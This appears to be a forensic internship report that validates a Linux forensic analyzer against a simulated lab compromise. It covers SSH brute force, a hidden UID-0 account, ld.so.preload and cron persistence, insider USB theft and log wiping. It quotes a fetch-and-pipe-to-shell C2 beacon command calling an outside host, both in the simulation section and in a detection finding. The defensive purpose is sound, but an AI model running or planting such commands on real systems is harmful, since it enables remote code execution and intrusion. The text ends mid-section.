# Digital Forensic Incident Investigation & Technical Walkthrough Report
## Multi-Vector Linux Enterprise Compromise, Reconstruction, and Tool Validation

**Case Reference:** `CASE-ENTERPRISE-SIM`  
**Document Classification:** Confidential — Digital Forensics & Incident Response (DFIR) / Technical Internship Report  
**Lead Investigator / Examiner:** Fahad  
**Target Host Identifier:** `5e91118635724e4ba187e0e1e063b8f2` (Linux Enterprise Node / Kernel 5.15)  
**Date of Investigation:** November 2026  
**Investigation Framework:** Linux Forensic Analyzer (LFA) & Industry-Standard DFIR Tooling  
**Department Task Deliverables:** Task 3: Cyber Crime Investigation & Task 4: Internship Report  

---

## Executive Summary

On November 9, 2026, high-severity operational alerts were triggered on production application node `5e911186...`, signaling unauthorized off-hours logins, administrative account creation, and anomalous outbound network connections. A digital forensics investigation was initiated to identify the initial entry vector, determine the extent of administrative compromise, reconstruct attacker persistence, trace potential data exfiltration, and establish root cause attribution.

To fulfill the requirements of **Task 3 (Cyber Crime Investigation)** and **Task 4 (Internship Report)**, this report combines an authentic, hypothesis-driven incident investigation with an end-to-end technical walkthrough of the **Linux Forensic Analyzer (LFA)**. The investigation covers eight core cybercrime categories:
1. **Unauthorized login** (Off-hours interactive breach access)
2. **Brute-force SSH attack** (External credential stuffing burst from `203.0.113.9`)
3. **Insider activity** (Multi-session anomalous employee operations)
4. **USB data theft** (Removable mass storage attachment and dwell time copying)
5. **Malware execution** (Dynamic Linker rootkit hook in `/etc/ld.so.preload`)
6. **Privilege escalation** (Hidden UID-0 account `sysmon` and `/etc/sudoers.d` hijacking)
7. **Suspicious process execution** (C2 reverse shell beaconing)
8. **Data exfiltration** (Local staging in `/tmp/exfil_staging/` and transmission traces)

### Key Investigation Metrics
- **Evidence Acquired:** 109 core system artifacts, kernel logs, and volatile snapshots captured in-memory using read-only techniques (RFC 3227 compliant).
- **Events Ingested & Normalized:** **62,117 events** mapped into a unified, deterministic UTC timeline.
- **Threat Detections:** **47 security findings** identified by the correlation engine (**27 High**, **8 Medium**, **12 Low**).
- **Cryptographic Integrity:** **100% hash parity** verified across 154 ingested files between collection and analysis.
- **Baseline Isolation:** Zero false positives produced against realistic corporate background noise generated by regular employee accounts (`dev_sarah`, `admin_mike`).

---

## 1. Initial Incident Alert & Competing Hypotheses

Upon case intake, three competing hypotheses were formulated to govern the analysis without confirmation bias:

| Hypothesis | Description | Anticipated Evidence Signatures | Investigation Verdict |
| :--- | :--- | :--- | :---: |
| **H1: External Credential Compromise** | An external adversary conducted credential stuffing against public SSH, compromised a valid account, and deployed persistence. | High-frequency failed logins from external IP followed by success; sudden administrative group changes. | **CONFIRMED** |
| **H2: Malicious Insider Data Theft** | An authorized internal employee abused existing legitimate access to stage company files and exfiltrate them via removable storage. | Multiple off-hours sessions, files staged in temporary directories, kernel USB attachment signatures (`dmesg`). | **CONFIRMED** |
| **H3: Multi-Vector Coordinated Incident** | The system was subjected to both an external intrusion and independent rogue insider activity, compounding host risk. | External C2 beacons, dynamic linker hooks (`/etc/ld.so.preload`), alongside independent insider USB exfiltration and log tampering. | **VALIDATED** |

---

## 2. Controlled Lab Recreation & Multi-Stage Attack Simulation

To evaluate LFA against ground truth in a controlled, repeatable environment, the multi-stage attack scenario [`testlab/scenarios/mega_chain.sh`](file:///testlab/scenarios/mega_chain.sh) was deployed on a snapshotted Linux enterprise instance.

### 2.1 Benign Corporate Baseline Generation
Before executing adversarial actions, Phase 1 established a realistic corporate baseline to stress-test the correlation engine's noise-rejection capabilities:
- Created legitimate corporate accounts: `dev_sarah` (software engineer) and `admin_mike` (systems administrator).
- Injected clean, authentic shell history for both employees (git workflows, system health checks, package queries).
- Established legitimate cron tasks (`sysstat`, log rotations, certbot renewals).
- Injected low-frequency, benign internet scanner noise below detection thresholds.

### 2.2 Recreating the 8 Cybercrime Attack Vectors (Task 3)
The simulation executed an authentic 10-stage kill chain covering all required incident categories:


*Figure 2.1: Execution of `mega_chain.sh` showing benign background noise generation (Phase 1) and external SSH brute-force credential stuffing from 203.0.113.9 (Phase 2).*

- **Vector 1 & 2: Brute-Force SSH & Initial Access:** Attacker IP `203.0.113.9` executed credential stuffing, ultimately gaining valid interactive access as user `kali` during off-hours.
- **Vector 5 & 6: Privilege Escalation & Backdoor Accounts:** The adversary created a hidden root account (`sysmon`, UID 0), created passwordless service account `svc_backup`, and dropped rogue escalation privileges into `/etc/sudoers.d/`.


*Figure 2.2: Terminal execution log showing creation of hidden UID-0 root account (`sysmon`), rogue sudoers configuration, `/etc/ld.so.preload` rootkit hooks, and reverse shell triggers.*

- **Vector 5: Multi-Vector Persistence:** 
  1. Backdoor SSH public key injected into `/root/.ssh/authorized_keys`.
  2. Scheduled periodic C2 beacon in `/etc/cron.d/lfa_beacon`.
  3. Dynamic Linker rootkit hook in `/etc/ld.so.preload`.
  4. Interactive logon profile trap in `/etc/profile.d/`.
- **Vector 7: Command Execution & Reverse Shells:** Real execution of outbound beacon payloads (`curl -s http://203.0.113.9/beacon | /bin/sh`) and reverse shell network socket listeners.


*Figure 2.3: Execution of exfiltration staging, simulated USB mass storage theft, rogue insider activity, and anti-forensic log wiping.*

- **Vector 8: Data Staging & Exfiltration:** Mock sensitive assets collected and staged in `/tmp/exfil_staging/`.
- **Vector 4: USB Data Theft:** Kernel ring-buffer messages simulating physical USB mass storage attachment, rapid data transfer, and unmount.
- **Vector 3: Rogue Insider & Anti-Forensics:** Employee account `insider` executed 5 separate off-hours sessions, followed by deliberate anti-forensic tampering: truncating user `.bash_history` (`wiped_history`), zeroing `/var/log/btmp` to 0 bytes, and injecting artificial backwards timestamps.


*Figure 2.4: Simulation summary output documenting the 17 verified ground-truth indicators and providing standard operational commands for acquisition and analysis.*

---

## 3. Live Forensic Acquisition & Chain of Custody

Following **RFC 3227 (Order of Volatility)**, evidence was collected from the live target using [`collector/collect.sh`](file:///collector/collect.sh) without writing temporary files to the analyzed disks.

### 3.1 Collection Command
```bash
sudo sh collector/collect.sh \
  -r / \
  -o /mnt/d/C/Git/Linux-Forensics-system/cases/wsl_enterprise \
  -c CASE-ENTERPRISE-SIM \
  -p "Fahad" \
  -V -z
```


*Figure 3.1: Live forensic acquisition executing via `collect.sh`, displaying file enumeration and final cryptographic SHA-256 bundle verification.*

### 3.2 Chain of Custody & Evidence Architecture
- **Total Files Collected:** 109 core forensic artifacts and log databases.
- **Bundle SHA-256:** `2a79bb107f0b2929f6ddfa4af2646fcae106dcb0667e62594c7b13f281bc4bdb`.
- **Tamper-Evident Artifacts:** The evidence directory stores the raw archive alongside cryptographic manifests:
  - `bundle.tar.gz`: The compressed collection bundle.
  - `hash_manifest.csv`: Pre- and post-collection SHA-256 hashes for every file.
  - `manifest.json`: System state, kernel release, acquisition time, and environment metadata.


*Figure 3.2: Evidence directory in `cases/wsl_enterprise` containing the raw compressed bundle, hash manifests, and acquisition metadata.*

---

## 4. Portable Deployment Architecture (`LFA-Portable`)

To ensure evidence can be ingested and analyzed on air-gapped forensic workstations without internet access, third-party package managers, or local Python installations, the standalone **LFA-Portable** distribution was deployed.


*Figure 4.1: File structure of `LFA-Portable` featuring self-contained embedded runtimes, batch launchers, and offline verification scripts.*

- `runtime/`: Embedded, zero-install Python 3.13 execution environment.
- `app/`: LFA parsing engine, correlation rules, and reporting modules.
- `lfa.cmd`: Universal command-line interface for ingestion, analysis, and verification.
- `lfa-dashboard.cmd` & `lfa-server.cmd`: One-click local SOC investigation server launchers.
- `verify-install.cmd`: Cryptographic verification script checking all binaries against `SHA256SUMS.txt`.

---

## 5. Pipeline Ingestion, Event Normalization & Threat Correlation

With evidence securely archived, the analyzer pipeline was executed on the forensic workstation:

```cmd
lfa.cmd analyse cases\wsl_enterprise\bundle.tar.gz --case-dir cases\CASE-ENTERPRISE-SIM --examiner "Fahad"
```


*Figure 5.1: Analysis pipeline execution output confirming host ingestion, normalization of 62,117 events, and detection of 47 threat findings.*

### Ingestion Summary:
- **Case Identifier:** `CASE-ENTERPRISE-SIM`
- **Host Identifier:** `5e91118635724e4ba187e0e1e063b8f2`
- **Verified Files Ingested:** 154 files
- **Total Normalized Events:** **62,117 events**
- **Correlation Engine Findings:** **47 security findings** (**27 High**, **8 Medium**, **12 Low**)
- **Generated Outputs:** SQLite database (`case.db`), canonical JSON/CSV exports, and executive HTML report (`report.html`).

---

## 6. Detailed Forensic Examination & Dual-Layer Detections

Opening `cases/CASE-ENTERPRISE-SIM/report.html` renders the offline, self-contained executive forensic report.


*Figure 6.1: Executive Forensic Examination Report header displaying examiner metadata, host identification, and the severity distribution.*

### 6.1 Key Threat Observations
The correlation engine automatically identified and prioritized the most critical threat indicators:


*Figure 6.2: Key observations section identifying immediate administrator rights elevation for `kali`, `backdooruser`, and `postgres`, alongside malicious C2 beaconing commands.*

---

### 6.2 Dual-Layer Findings: Deep Analytical Inspection
Every finding card provides both an executive summary answering four plain-English questions and full technical provenance.

#### Finding 1: Rogue Administrator Account Creation

*Figure 6.3: Detailed finding card for rogue administrator account creation with confidence scoring.*

- **What Happened:** Account `kali` was created and immediately granted administrator rights at `2026-05-26 10:23`.
- **Why It Matters:** Immediate promotion to administrator is how an intruder ensures persistent root access after initial foothold credentials are closed.
- **Confidence:** High.
- **What To Check Next:** Identify the parent process and user that executed `useradd`/`usermod` via `auditd` or `journald`.

#### Finding 2: Suspicious Reverse-Shell / C2 Beacon Execution

*Figure 6.4: Finding card detailing malicious shell command detection (`curl -s http://203.0.113.9/beacon | /bin/sh`).*

- **What Happened:** A command matching a known malicious payload pattern was detected: `curl -s http://203.0.113.9/beacon | /bin/sh`.
- **Why It Matters:** Matches standard C2-beaconing and reverse-shell delivery techniques.
- **Confidence:** Medium (sourced from user shell history).
- **What To Check Next:** Corroborate against kernel `auditd execve` records, journald streams, and outbound network firewall logs.
- **Technical Detail:** Source artifact `/root/.bash_history`, Rule ID `suspicious_process v1.1`.

---

### 6.3 Offline SVG Visualizations & Event Stream
LFA generates deterministic, pure-Python vector SVGs without external JavaScript or CDN dependencies:


*Figure 6.5: Offline SVG charts illustrating daily event volume and hourly failed authentications, highlighting the password-guessing spike.*

The chronological event stream allows examiners to step through events in absolute UTC order:


*Figure 6.6: Normalized chronological event stream displaying kernel initialization parameters, environment variables, and timestamps.*

---

### 6.4 Cryptographic Evidence Integrity Audit
LFA compares the pre-collection hash recorded in `hash_manifest.csv` against the re-computed hash at ingestion time. 100% of artifacts verified successfully:

